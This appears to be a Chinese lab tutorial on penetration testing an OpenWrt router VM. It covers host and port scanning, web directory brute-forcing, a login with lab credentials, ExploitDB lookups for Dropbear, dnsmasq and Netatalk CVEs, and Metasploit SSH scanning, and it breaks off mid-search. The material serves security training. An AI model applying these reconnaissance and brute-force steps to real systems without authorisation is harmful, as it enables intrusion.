# IOT渗透测试：从信息收集到msf,ExploitDB攻击渗透思路实录分享-先知社区

> **来源**: https://xz.aliyun.com/news/17486  
> **文章ID**: 17486

---

# 一、引言

在这篇文章中，我们将带您走进真实的渗透测试世界，揭开信息收集、目标发现以及漏洞挖掘的神秘面纱。文章开头不仅会引发您的好奇心，还会为您勾勒出整个流程的全景图，让您清晰了解从内网存活主机的探测到Web服务的深入分析，再到非Web端口服务的嗅探和漏洞利用的全过程。  
**文章主要内容及关键知识点：**

* **内网信息收集与目标发现：**  
  介绍如何利用 arp-scan、arping、netdiscover、nmap、fping 等工具扫描局域网内的主机，精确识别目标的 IP 和 MAC 信息，为后续攻击打下坚实基础。
* **基础服务探测：**  
  通过 masscan 和 nmap 等工具实现对目标主机端口的全面扫描，区分开放与关闭端口，并探讨不同扫描方式（如 -sS 与 -sT）的异同及实际应用场景。
* **Web服务安全评估：**  
  展示如何使用 whatweb、cewl、gobuster、dirsearch、feroxbuster 和 dirb 等工具对目标 Web 服务进行指纹分析、路径枚举、敏感接口挖掘，进而寻找潜在漏洞，为后续的攻击提供有力线索。
* **非Web端口的服务嗅探与漏洞检索：**  
  分析目标在 SSH、DNS、AFP 等服务上的开放情况，结合 ExploitDB 的检索方法，探讨利用常见漏洞（例如 Dropbear sshd 的远程代码执行和命令注入漏洞）的可能性。

这篇文章不仅系统讲解了各项工具的使用方法和实际操作示例，还通过实际输出结果和扫描截图，让您在理论与实践中获得全面的提升。无论您是渗透测试新手还是想进一步挖掘漏洞的进阶者，这里都有您不可错过的实战技巧和关键知识！

渗透测试流程，涵盖从目标发现到权限获取的完整路径，并标注了关键工具与绕过技巧。  
阅读全文，您将获得完整的渗透流程实战指南，助您在网络安全领域走得更远。

本次实验所使用的攻击环境为：

```
kali2023
目标靶机openwrt
```

# **二、信息收集与目标发现**

## 1. **内网存活主机探测**

### 1. 使用 `arp-scan` 扫描局域网内的存活主机

```
┌──(root㉿kali)-[/home/kali]
└─# sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:b9:3d:d6, IPv4: 192.168.52.129
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.52.1    00:50:56:c0:00:08       (Unknown)
192.168.52.2    00:50:56:e5:1b:21       (Unknown)
192.168.52.2    00:0c:29:02:08:e0       (Unknown) (DUP: 2)
192.168.52.254  00:50:56:e2:a2:f3       (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.874 seconds (136.61 hosts/sec). 3 responded
```



* 该命令会扫描本地网络接口的所有主机，并返回 IP 和 MAC 地址。
* 但它仅适用于本地局域网（同一网段）。

### 2. 使用 `arping` 发送 ARP 请求

```
┌──(root㉿kali)-[/home/kali]
└─# for i in {1..254}; do arping -c 2 192.168.52.$i; done
```



* 适用于局域网内的主机探测，但如果目标不在同一网段，则可能无效。

### 3. 使用 `netdiscover` 发现主机

* 该命令会扫描 `192.168.52.0/24` 网段内的所有主机。
* 适用于无线或有线局域网。

```
sudo netdiscover -r 192.168.52.0/24
```



### 4. 使用 `nmap` 进行主机发现

```
nmap -sP 192.168.52.0/24 
```



* `-sn` 仅进行主机发现（Ping 扫描）。
* 若目标主机在线，它会返回相关信息（如 MAC 地址）。
* `-Pn` 关闭 Ping 检测，直接尝试端口扫描以确定主机是否存活。

### 5. 使用 `fping` 进行批量探测

```
fping -gaq 192.168.52.0/24
```



* `-g` 指定 IP 地址或网段。
* `-a` 仅显示存活主机。
* `-q` 静默模式（仅显示结果）。

## 2. **基础服务探测**

### 1. 使用 `masscan` 进行快速扫描

`masscan` 是一款高效的端口扫描工具，比 `nmap` 更快，适用于大范围端口扫描：

```
┌──(root㉿kali)-[/home/kali]
└─# sudo masscan -p1-65535 192.168.52.2 --rate=1000
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2025-03-26 16:43:02 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 53/tcp on 192.168.52.2   
```

* `-p1-65535` 扫描所有端口。
* `--rate=1000` 设定速率（可调整，如 `--rate=5000` 更快，但可能丢包）。
* `masscan` 默认使用 `SYN` 扫描，需要 `root` 权限。  
  

### 2. 使用 nmap 进行详细扫描

**(1) 全端口扫描**  
使用下面的命令扫描目标主机所有端口（1-65535），以便初步发现开放的端口：

```
nmap -p- -sT 192.168.52.2
```

* `-p-` 表示扫描全部端口。
* 适用于初步发现目标主机开放哪些端口。
* `-sT`,TCP connect 扫描：建立完整 TCP 连接（调用系统 API），虽然比 SYN 扫描容易被发现，但在无 root 权限或网络环境受限时使用较为普遍。使用 sudo 时也可采用此方式进行全面扫描。

**(2) 详细扫描已知端口**  
如果已经知道目标开放的端口（例如：22、53、80、548），可以对这些端口进行详细扫描，获取更多服务信息：

```
nmap -p22,53,80,548 -sV -sS -A 192.168.52.2
```

* `-p22,53,80,548` 表示仅扫描这几个端口，从而加快扫描速度。
* `-A` 启用操作系统检测、版本检测、脚本扫描和 traceroute，能够获得更详细的服务信息。
* **-sV** 同样进行服务版本探测，获取运行服务的具体版本信息。
* `-sS` SYN 扫描（半开放扫描）：发送 SYN 包探测目标端口开放情况，比 connect 扫描隐蔽性更好。

**(3) 目标开启防火墙时**  
如果目标主机启用了防火墙，普通的扫描可能会受限，此时可以使用 firewalk 脚本进行防火墙规则识别和网络路径追踪：

```
nmap --script=firewalk --traceroute 192.168.52.2
```

* `--script=firewalk` 用于识别目标防火墙的规则。
* `--traceroute` 用于追踪数据包的网络路径，帮助分析防火墙策略。  
  如果需要更详细的绕过防火墙的策略，可参考：[nmap 目前绕过防火墙通用策略 - y0um - 博客园](https://www.cnblogs.com/cou1d/p/15013151.html)

**(4) 正式开始对目标进行扫描**  
下面展示了两次扫描的实际命令和结果，确认靶机上开启的端口为 22、53、80 和 548。  
首先，使用全端口扫描：

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- -sT 192.168.52.2

[sudo] kali 的密码：
Starting Nmap 7.94 ( https://nmap.org ) at 2025-03-25 22:54 EDT
Nmap scan report for 192.168.52.2
Host is up (0.0021s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
548/tcp open  afp
MAC Address: 00:50:56:E5:1B:21 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 12.01 seconds
```

下图为扫描结果截图：  


接着，使用详细扫描命令：

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- -sT -sV -A 192.168.52.2
Starting Nmap 7.94 ( https://nmap.org ) at 2025-03-25 23:04 EDT
Nmap scan report for 192.168.52.2
Host is up (0.0014s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     Dropbear sshd (protocol 2.0)
53/tcp  open  domain  dnsmasq
80/tcp  open  http    LuCI Lua http config
|_http-title: Site doesn't have a title (text/html).
548/tcp open  afp     Netatalk 3.1.11 (name: OpenWrt; protocol 3.4)
| afp-serverinfo: 
|   Server Flags: 
|     Flags hex: 0x8f79
|     Super Client: true
|     UUIDs: true
|     UTF8 Server Name: true
|     Open Directory: true
|     Reconnect: false
|     Server Notifications: true
|     TCP/IP: true
|     Server Signature: true
|     Server Messages: true
|     Password Saving Prohibited: false
|     Password Changing: false
|     Copy File: true
|   Server Name: OpenWrt
|   Machine Type: Netatalk3.1.11
|   AFP Versions: AFP2.2, AFPX03, AFP3.1, AFP3.2, AFP3.3, AFP3.4
|   UAMs: DHX2, DHCAST128
|   Server Signature: 9e78acd22aeff5e2f9866a7cbb8d628d
|   Network Addresses: 
|     192.168.52.2
|_  UTF8 Server Name: OpenWrt
MAC Address: 00:50:56:E5:1B:21 (VMware)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=3/25%OT=22%CT=1%CU=30032%PV=Y%DS=1%DC=D%G=Y%M=005056%T
OS:M=67E36F02%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I
OS:%TS=A)SEQ(SP=106%GCD=2%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O2
OS:=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)W
OS:IN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7
OS:210%O=M5B4NNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T
OS:3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%
OS:RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.39 ms 192.168.52.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.64 seconds
```

还有一种扫描方式是只显示开放的端口：

```
┌──(root㉿kali)-[/home/kali]
└─# sudo nmap -p 1-65535 --open 192.168.52.2

Starting Nmap 7.94 ( https://nmap.org ) at 2025-03-26 00:37 EDT
Nmap scan report for 192.168.52.2
Host is up (0.0018s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
548/tcp open  afp
MAC Address: 00:50:56:E5:1B:21 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 13.31 seconds
```

通过这些扫描结果，可以确认目标主机 `192.168.52.2` 正在运行以下服务：

* **22/tcp** —— SSH（Dropbear sshd）
* **53/tcp** —— DNS（dnsmasq）
* **80/tcp** —— HTTP（LuCI Lua http config）
* **548/tcp** —— AFP（Netatalk，标识为 OpenWrt）  
  以上步骤及输出均表明目标主机的各项服务和开放端口情况，帮助后续进行漏洞挖掘或安全评估工作。

额外补充，不知道原因的问题：  
使用`-sS`或者`-sT`进行扫描，发现结果大有不同！而且使用`-sS`进行对某一端口单独扫描的时候又可以成功扫出来？

```
#开启-sS
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- -sS -sV -A 192.168.52.2
Starting Nmap 7.94 ( https://nmap.org ) at 2025-03-25 23:02 EDT
Nmap scan report for 192.168.52.2
Host is up (0.00026s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
53/tcp filtered domain
MAC Address: 00:50:56:E5:1B:21 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running: VMware Player
OS CPE: cpe:/a:vmware:player
OS details: VMware Player virtual NAT device
Network Distance: 1 hop
TRACEROUTE
HOP RTT     ADDRESS
1   0.26 ms 192.168.52.2
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.56 seconds

#开启-sV
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- -sT 192.168.52.2
[sudo] kali 的密码：
Starting Nmap 7.94 ( https://nmap.org ) at 2025-03-25 22:54 EDT
Nmap scan report for 192.168.52.2
Host is up (0.0021s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
548/tcp open  afp
MAC Address: 00:50:56:E5:1B:21 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 12.01 seconds

#开启-sS对22端口扫描
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p 22 -sS -sV 192.168.52.2
[sudo] kali 的密码：
Starting Nmap 7.94 ( https://nmap.org ) at 2025-03-25 22:52 EDT
Nmap scan report for 192.168.52.2
Host is up (0.00053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     Dropbear sshd (protocol 2.0)
MAC Address: 00:50:56:E5:1B:21 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.95 seconds
```

有时候使用`-sS`或者`-sT`进行扫描，发现结果有非常大的差距？

AI的解释：  


# **三、开始进行web端口外部打点尝试**

在实际渗透测试中，对目标的web服务进行全面的信息收集是至关重要的一环。通过对web服务进行指纹分析、字典生成、路径爆破和目录扫描，我们可以发现隐藏的目录、敏感接口以及潜在的漏洞，从而为后续攻击奠定基础。下面详细介绍各个步骤及其运用技巧。

## 0.Web服务指纹分析

指纹分析的目的是快速了解目标服务所使用的后台技术、应用框架、常见组件以及可能的防护措施。常用工具包括 **whatweb**、**wappalyzer** 等。

```
┌──(root㉿kali)-[/home/kali]
└─# whatweb http://192.168.52.2/cgi-bin/luci
http://192.168.52.2/cgi-bin/luci [403 Forbidden] Bootstrap, Country[RESERVED][ZZ], HTML5, IP[192.168.52.2], PasswordField[luci_password], PoweredBy[LuCI], Script[text/javascript], Title[OpenWrt - LuCI], UncommonHeaders[hint,x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]
```



* 从输出中可以看到目标返回了 403 状态码，同时显示了关键的指纹信息，如 “`PoweredBy[LuCI]`”、“`PasswordField[luci_password]`” 等。
* 这种信息帮助我们确认目标运行的是基于 OpenWrt 的 LuCI 管理界面，并且能够推断出系统可能使用的默认认证方式和一些常见配置。

目标服务器汇编指令架构：

```
root@OpenWrt:~# opkg print-architecture
arch all 1
arch noarch 1
arch x86_64 10
root@OpenWrt:~# uname -m
x86_64
```

**重点提示：**  
指纹探测不仅可以确定目标系统的种类，还能帮助我们判断是否存在默认口令或弱口令，从而为后续利用提供依据。

## 1.利用 cewl 生成特定的字典

使用 cewl 对目标网站（例如OpenWrt路由器管理界面）进行爬虫式信息收集，根据设定的爬取深度和最小单词长度生成一个专用字典文件，该字典可以在后续的密码爆破中使用。  
登录目标：

```
┌──(kali㉿kali)-[~]
└─$ curl -i -X POST http://192.168.52.2/cgi-bin/luci  -d "luci_username=dvrfguest&luci_password=cuc123" 
HTTP/1.1 302 Found
Transfer-Encoding: chunked
Congradulations: : flag{123}
Connection: keep-alive
Keep-Alive: timeout=4
Location: /cgi-bin/luci/
Proxy-Connection: keep-alive
Set-Cookie: sysauth=b52bc35180f15b259421cd0355e58b9c; path=/cgi-bin/luci/; HttpOnly
```

登录成功后直接开始爬取关键字：

```
# 使用 curl 登录并获取 sysauth Cookie
curl -c cookies.txt -X POST http://192.168.52.2/cgi-bin/luci \
     -d "luci_username=dvrfguest&luci_password=cuc123"

# 从 cookies.txt 中提取 sysauth 的值
sysauth=$(awk '/sysauth/ {print $NF}' cookies.txt)

# 使用 cewl 进行爬取，添加 sysauth Cookie 到请求头
cewl -w target_wordlist.txt --auth_type basic --auth_user dvrfguest --auth_pass cuc123 \
     --header "Cookie: sysauth=$sysauth" \
     http://192.168.52.2/cgi-bin/luci/
```

直接组合一下,成功登录并且爬取！  


## 2.使用 gobuster 进行路径发现

利用 gobuster 对Web路径进行暴力枚举，寻找隐藏的目录和文件。

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.52.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -x txt,php,html,lua
```

* **-w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt**：使用`directory-list-1.0.txt`作为字典文件。这个字典文件通常包含大量的路径和文件名，用于尝试访问目标服务器上可能存在的资源。这个字典相对较为全面，但可能包含很多不太常见的路径和文件名。
* **-x txt,php,html,jsp**：指定要扫描的文件扩展名。这意味着Gobuster将只尝试访问以这些扩展名结尾的资源。  
  

## 3.使用 gobuster 进行更加针对性的扫描

在初步发现的基础上，调整字典和扩展参数，对特定目录进行更精细的扫描。

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -r -u http://192.168.52.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -x txt,php,html,lua
```

* **-r**：启用递归扫描。这意味着如果Gobuster发现了一个目录，它将尝试对该目录下的子目录和文件进行进一步的扫描。  
  

## 4.使用 dirsearch 进行路径爆破

dirsearch 能够快速扫描并识别目标网站上存在的常见目录与文件路径，为进一步挖掘提供依据。

```
dirsearch -u  http://192.168.52.2/ -i 200 
```



扫描结果显示目标仅开放了有限几个接口，主要包括 `/cgi-bin` 和 `/index.html`。  
最后，通过使用 dirb 与常用字典（例如 `/usr/share/seclists/Discovery/Web-Content/common.txt`）对目标进行爆破，确认了目前仅发现如下几个接口：

```
+ http://192.168.52.2/cgi-bin (CODE:302|SIZE:0)
+ http://192.168.52.2/cgi-bin/ (CODE:403|SIZE:79)
+ http://192.168.52.2/index.html (CODE:200|SIZE:495)
```

## 5.使用 feroxbuster 进行路径发现

feroxbuster 是一款速度较快且并发性强的路径枚举工具，可以补充前述工具的不足，发现更多隐藏的入口。

```
┌──(root㉿kali)-[/home/kali]
└─# feroxbuster --url http://192.168.52.2
                                                                                       
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.52.2
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l       11w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        0l        0w        0c http://192.168.52.2/cgi-bin => http://192.168.52.2/cgi-bin/
403      GET       87l      192w     2782c http://192.168.52.2/cgi-bin/luci
200      GET       11l       40w      495c http://192.168.52.2/
403      GET        1l       10w       79c http://192.168.52.2/cgi-bin/
[####################] - 47s    60002/60002   0s      found:4       errors:75     
[####################] - 46s    30000/30000   650/s   http://192.168.52.2/ 
[####################] - 46s    30000/30000   647/s   http://192.168.52.2/cgi-bin/    
```

## 6.利用 dirb 进行路径爆破

直接调用 dirb 对目标URL进行扫描，结合常用字典来探测是否存在漏网之鱼。后续命令示例如下：

```
dirb http://192.168.52.2/ -w
```

利用 dirb 进行指定后最文件扫描爆破：

```
dirb  http://192.168.52.2/ -X .bak,.back
```



目前扫描结果仅发现以下两个接口：  


  
直接访问80端口时，我们可以看到目标页面明确显示了路由器的管理界面信息：  


```
Powered by LuCI openwrt-18.06 branch (git-19.020.41695-6f6641d) / OpenWrt 18.06.2 r7676-cddd7b4c77
```

# 四、对非web端口的服务进行迅速嗅探

## 总结分析前期信息收集到的目标

可以发现靶机开启了这些目标：

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- -sT -sV -A 192.168.52.2
Starting Nmap 7.94 ( https://nmap.org ) at 2025-03-25 23:04 EDT
Nmap scan report for 192.168.52.2
Host is up (0.0014s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     Dropbear sshd (protocol 2.0)
53/tcp  open  domain  dnsmasq
80/tcp  open  http    LuCI Lua http config
|_http-title: Site doesn't have a title (text/html).
548/tcp open  afp     Netatalk 3.1.11 (name: OpenWrt; protocol 3.4)
```

根据前期的信息收集，目标主机（192.168.52.2）开放了以下端口：

* **22/tcp**：SSH服务（Dropbear sshd）
* **53/tcp**：DNS服务（dnsmasq）
* **80/tcp**：HTTP服务（LuCI Lua HTTP配置界面）
* **548/tcp**：AFP服务（Netatalk 3.1.11）

   
**HTTP (80端口)**

* 对网站进行详细的漏洞扫描（如目录遍历、SQL注入、XSS、文件包含等），可利用工具如Nikto、DirBuster、Burp Suite等。
* 检查Web应用程序的默认页面、敏感文件或配置文件是否泄露。

**SSH (22端口)**

* 使用暴力破解工具（如Hydra、Medusa）尝试弱口令攻击，验证是否存在默认或弱密码配置。
* 对SSH服务进行身份验证枚举，了解允许登录的用户列表。

**DNS (53端口)**

* 尝试进行域名信息收集，如使用DNS枚举工具（例如dnsenum、dnsrecon）获取子域、DNS记录等信息。
* 检查是否存在DNS区域传送漏洞，利用dig命令（如 `dig axfr domain.com`）或Nmap的dns-zone-transfer脚本进行测试。

**AFP (548端口)**

* 检查AFP服务是否存在默认凭据、弱口令或配置不当问题。
* 可以使用AFP客户端工具尝试连接，查看是否有未授权访问或文件共享漏洞。

## 检索kali自带的ExploitDB

发现了几个但是数据库可能不是很新，继续更新！

```
┌──(kali㉿kali)-[~]
└─$ cd /usr/share/exploitdb
```

更新：

```
┌──(root㉿kali)-[/home/kali]
└─# sudo searchsploit -u
[i] Updating via apt package management (Expect weekly-ish updates): exploitdb
```

### exploitdb 进行检索SSH服务（Dropbear sshd）

```
┌──(kali㉿kali)-[/usr/share/exploitdb]
└─$ grep -i Dropbear *                                                      
grep: exploits: 是一个目录
files_exploits.csv:387,exploits/linux/remote/387.c,"Dropbear SSH 0.34 - Remote Code Execution",2004-08-09,livenn,remote,linux,22,2004-08-08,2016-12-05,1,OSVDB-2429,,,,http://www.exploit-db.comdropbear-0.34.tar.bz2,
files_exploits.csv:40119,exploits/linux/remote/40119.md,"DropBearSSHD 2015.71 - Command Injection",2016-03-03,tintinweb,remote,linux,,2016-07-18,2018-01-11,0,CVE-2016-3116,,,,,https://github.com/tintinweb/pub/tree/1b0c76ba7bb87cfd9ab36e4ca5e5e72cb9fdc0ca/pocs/cve-2016-3116
files_exploits.csv:1572,exploits/multiple/dos/1572.pl,"Dropbear / OpenSSH Server - 'MAX_UNAUTH_CLIENTS' Denial of Service",2006-03-10,str0ke,dos,multiple,,2006-03-09,2016-06-29,1,OSVDB-23960;CVE-2006-1206,,,,http://www.exploit-db.comdropbear-DROPBEAR_0.44.tar.gz,
grep: shellcodes: 是一个目录
```

发现这些数据有很多都会是非常古老且并非通用架构，无法使用！  
Dropbear 相关的条目：

1. **Dropbear SSH 0.34 - Remote Code Execution (RCE)**

* 文件路径: exploits/linux/remote/387.c
* 漏洞描述: Dropbear SSH 0.34 版本存在远程代码执行漏洞。
* 发布日期: 2004-08-09
* 漏洞编号：OSVDB-2429
* 平台: Linux
* 端口: 22 (SSH 默认端口)
* 相关链接: <http://www.exploit-db.comdropbear-0.34.tar.bz2> [OSV - Open Source Vulnerabilities](https://osv.dev/)
* 可能的利用方式: 这是一个较老的漏洞，可能允许攻击者在目标系统上执行任意代码。利用方式通常涉及发送特制的 SSH 请求，可能需要结合特定的环境条件（如目标运行的 Dropbear 版本正好是 0.34）。

2. **DropBearSSHD 2015.71 - Command Injection**

* 文件路径: exploits/linux/remote/40119.md
* 漏洞描述: Dropbear SSHD 2015.71 版本存在命令注入漏洞。
* 发布日期: 2016-03-03
* CVE: CVE-2016-3116
* 相关链接: <https://github.com/tintinweb/pub/tree/1b0c76ba7bb87cfd9ab36e4ca5e72cb9fdc0ca/pocs/cve-2016-3116>
* 可能的利用方式: 命令注入漏洞通常可以通过向 SSH 服务发送恶意输入来触发，允许攻击者在目标系统上执行未经授权的命令。PoC（概念验证代码）可能在提供的 GitHub 链接中找到。

3. **Dropbear / OpenSSH Server - 'MAX\_UNAUTH\_CLIENTS' Denial of Service (DoS)**

* 文件路径: exploits/multiple/dos/1572.pl
* 漏洞描述: Dropbear 和 OpenSSH 服务端存在拒绝服务漏洞，涉及 MAX\_UNAUTH\_CLIENTS 参数。
* 发布日期: 2006-03-10
* CVE: CVE-2006-1206
* 相关链接: <http://www.exploit-db.comdropbear-DROPBEAR_0.44.tar.gz>
* 可能的利用方式: 这是一个 DoS 漏洞，可能通过耗尽服务器的未认证客户端连接限制来使其无法响应正常请求。利用脚本可能是一个 Perl 脚本（如 1572.pl）。

在 Kali 中，ExploitDB 的漏洞文件位于 /usr/share/exploitdb/。你可以查看具体文件：

```
cat /usr/share/exploitdb/exploits/linux/remote/387.c
cat /usr/share/exploitdb/exploits/linux/remote/40119.md
cat /usr/share/exploitdb/exploits/multiple/dos/1572.pl
```

根据这些信息进行漏洞攻击，但是不一定都可以使用！

### exploitdb 进行检索DNS服务（dnsmasq）

```
┌──(kali㉿kali)-[/usr/share/exploitdb]
└─$ grep -i "dnsmasq" *          
```

  
**已知的** `dnsmasq` **漏洞：**

1. **CVE-2017-14491**：该漏洞是一个堆溢出漏洞，允许远程攻击者通过发送特制的 DNS 数据包，在目标系统上执行任意代码。 [搜狐+4cert.org.cn+4安全客+4](https://www.cert.org.cn/publish/main/9/2017/20171010153449523596907/20171010153449523596907_.html?utm_source=chatgpt.com)
2. **CVE-2017-14492**：该漏洞是一个堆溢出漏洞，可能导致远程代码执行。 [安全客+1cert.org.cn+1](https://www.anquanke.com/post/id/87085?utm_source=chatgpt.com)
3. **CVE-2017-14493**：该漏洞是一个堆溢出漏洞，可能导致远程代码执行。
4. **CVE-2017-14494**：该漏洞是一个信息泄露漏洞，可能导致敏感信息泄露。 [cert.org.cn](https://www.cert.org.cn/publish/main/9/2017/20171010153449523596907/20171010153449523596907_.html?utm_source=chatgpt.com)
5. **CVE-2017-14495**：该漏洞是一个拒绝服务漏洞，可能导致服务崩溃。
6. **CVE-2017-14496**：该漏洞是一个整数下溢漏洞，可能导致拒绝服务。
7. **CVE-2020-25681 至 CVE-2020-25687**：这些漏洞统称为 "DNSpooq"，涉及 `dnsmasq` 中的多个安全问题，包括缓冲区溢出和 DNS 缓存投毒，可能导致远程代码执行或缓存污染。

### exploitdb 进行检索AFP服务（Netatalk 3.1.11）

```
┌──(kali㉿kali)-[/usr/share/exploitdb]
└─$ grep -i netatalk *
```

  
您提供的 `grep` 命令输出显示了与 **Netatalk** 相关的漏洞信息，特别是 **CVE-2018-1160**，这是一个身份验证绕过漏洞。以下是相关的漏洞利用（exploit）及其链接：

1. **Netatalk 3.1.12 - 身份验证绕过（PoC）**

* **Exploit ID**: 46048
* **发布日期**: 2018-12-21
* **作者**: Tenable NS
* **类型**: 拒绝服务（DoS）
* **平台**: 多种
* **CVE**: CVE-2018-1160
* **链接**: <https://www.exploit-db.com/exploits/46048>

2. **Netatalk 3.1.12 - 身份验证绕过**

* **Exploit ID**: 46034
* **发布日期**: 2018-12-21
* **作者**: Jacob Baines
* **类型**: 远程
* **平台**: 多种
* **CVE**: CVE-2018-1160
* **链接**: <https://www.exploit-db.com/exploits/46034>

3. **QNAP Netatalk < 3.1.12 - 身份验证绕过**

* **Exploit ID**: 46675
* **发布日期**: 2019-04-08
* **作者**: muts
* **类型**: 远程
* **平台**: 多种
* **CVE**: CVE-2018-1160
* **链接**: <https://www.exploit-db.com/exploits/46675>

## 使用msf 进行攻击嗅探

### Metasploit 进行嗅探SSH服务（Dropbear sshd）

```
┌──(kali㉿kali)-[/usr/share/exploitdb]
└─$ msfconsole
Metasploit tip: To save all commands executed since start up to a file, use the 
makerc command
                                                  
 ______________________________________
/ it looks like you're trying to run a \
\ module                               /
 --------------------------------------
 \
  \
     __
    /  \
    |  |
    @  @
    |  |
    || |/
    || ||
    |\_/|
    \___/


       =[ metasploit v6.3.38-dev                          ]
+ -- --=[ 2366 exploits - 1228 auxiliary - 413 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use auxiliary/scanner/ssh/ssh_version
msf6 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.52.2
RHOSTS => 192.168.52.2
msf6 auxiliary(scanner/ssh/ssh_version) > run

[+] 192.168.52.2:22       - SSH server version: SSH-2.0-dropbear ( service.vendor=Dropbear SSH Project service.family=Dropbear service.product=Dropbear SSH service.cpe23=cpe:/a:dropbear_ssh_project:dropbear_ssh:- service.protocol=ssh fingerprint_db=ssh.banner ) (Kippo Honeypot)
[*] 192.168.52.2:22       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**etasploit Framework (MSF)** 操作，用于探测目标主机（`192.168.52.2`）的 SSH 服务版本信息。

|  |  |  |  |
| --- | --- | --- | --- |
| 步骤 | 命令/操作 | 含义 | 意义 |
| 1 | `msfconsole` | 启动 MSF | 进入渗透测试环境 |
| 2 | `use auxiliary/scanner/ssh/ssh_version` | 加载 SSH 版本扫描模块 | 非入侵式识别服务指纹 |
| 3 | `set RHOSTS 192.168.52.2` | 设置目标 IP | 指定扫描对象 |
| 4 | `run` | 执行扫描 | 获取 SSH 服务详细信息 |

尝试进行漏洞搜索，但是并未成功，尝试使用错误的模块进行攻击发现了错误：  
使用：search dropbear

```
msf6 auxiliary(scanner/ssh/ssh_version) > search dropbear

Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
